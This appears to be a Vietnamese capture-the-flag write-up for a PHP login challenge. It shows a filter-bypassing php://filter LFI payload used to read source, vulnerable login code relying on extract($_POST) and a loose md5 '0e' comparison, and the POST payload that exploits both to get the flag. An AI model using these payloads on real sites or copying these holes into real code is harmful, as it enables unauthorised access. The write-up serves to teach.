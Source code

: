 Sau khi vào Form thì mình được trang Login.<br>
Để ý ở dưới có dòng `Flag here ?`, ấn vào thử thì thấy đâu đó bóng dáng thấy Huấn.<br>
Ok, fine.<br>
Tiếp tục nhìn lên url trông có vẻ giống bị LFI, và đúng thật, nhưng bị filter r.<br>
Nghiên cứu 1 lúc thì có Payload: `pHp://FilTer/convert.base64-encode/resource=index`(lấy source file login cũng vậy).<br>
`login.php`
```php
<?php 
		
  	include ("flag.php"); //real flag in $flag

	if ($_SERVER['REQUEST_METHOD'] == "POST") {
		if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
			$password = random_int(10000000, 99999999);
			extract($_POST);
			$user_hash ='0e902564435691274142490923013038' ;
	
			if (md5($user) == $user_hash && $password === $pass){
				echo $flag;
				die();
			}else{
				die("Only admin have flag !!");
			}
		}
	}
?>
```
Để echo $flag thì cần bypass user và pass.<br>
User thì bypass dễ rỗi, chỉ cần sử dụng 1 chuỗi mà sau khi md5 thành 1 chuỗi mới có `0e` ở đầu là được.<br>
Pass thì có vẻ khó hơn, sau 1 hồi hỏi anh Google thì thấy có lỗi ở hàm exreact. Các bạn có thể tham khảo ở đây: https://davidnoren.com/post/php-extract-vulnerability/<br>

Rồi xây dựng payload thôi.<br>
Payload: user=DQWRASX&pass=1234&password=1234 (khi qua hàm extract thì giá trị password thành 1234)<br>
Vậy là được flag:
![image](https://user-images.githubusercontent.com/96786536/151706306-b73b4302-df7e-4894-99ea-56ad4d9743ed.png)
